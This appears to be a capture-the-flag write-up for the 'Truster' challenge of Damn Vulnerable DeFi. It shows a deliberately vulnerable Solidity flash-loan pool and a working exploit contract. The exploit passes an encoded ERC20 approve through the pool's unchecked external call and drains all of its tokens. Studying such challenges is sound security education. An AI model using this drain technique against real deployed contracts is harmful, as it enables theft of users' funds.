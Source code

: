 # Truster #
Here is the contract that we will be reviewing.

`pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/utils/ReentrancyGuard.sol";

contract TrusterLenderPool is ReentrancyGuard {

    IERC20 public damnValuableToken;

    constructor (address tokenAddress) public {
        damnValuableToken = IERC20(tokenAddress);
    }

    function flashLoan(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    )
        external
        nonReentrant
    {
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
        
        damnValuableToken.transfer(borrower, borrowAmount);
        (bool success, ) = target.call(data);
        require(success, "External call failed");

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }

}`


In this challenge the vulnerability is with the low level call in the flashloan function.        
`        (bool success, ) = target.call(data);
        require(success, "External call failed");`
With data passed in as parameter, we can put in a malicious code into it and make a cal to it.

here we create a contract to exploit the `TrusterLenderPool` contract

`contract TrusterExploit {
    function attack ( address _pool, address _token) public {
        TrusterLenderPool pool = TrusterLenderPool(_pool);
        IERC20 token = IERC20(_token);

        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)", address(this), uint(-1)
        );

        pool.flashLoan(0, msg.sender, _token, data);

        token.transferFrom(_pool , msg.sender, token.balanceOf(_pool));
    }
}`

so here is a solution to the code
here we encode the ERC20 approve function passing in the TrusterExploit address and the maximum number of uint(uint(-1)) will cause overflow and will return the maximum number of uint (115792089237316195423570985008687907853269984665640564039457584007913129639935)

The `flashLoan` function in the `TrusterLenderPool` is called with the encoded data passed in.

we borrowed 0 token from the flashloan so we don't have any amounbt to pay back. but what we do here is we made the `TrusterLenderPool` contract to approve our contract to spend all the `damnValuableToken` in the contract. 

`token.transferFrom(_pool , msg.sender, token.balanceOf(_pool));` here we transfer the approve token out to our address (msg.sender).

here is a link to the solution to the challenge [solution](https://github.com/Ultra-Tech-code/damn-vulnerable-defi/blob/7edb89e5cb7464179bfc99fa4824f8efa48d6d0b/test/truster/truster.challenge.js#L33)

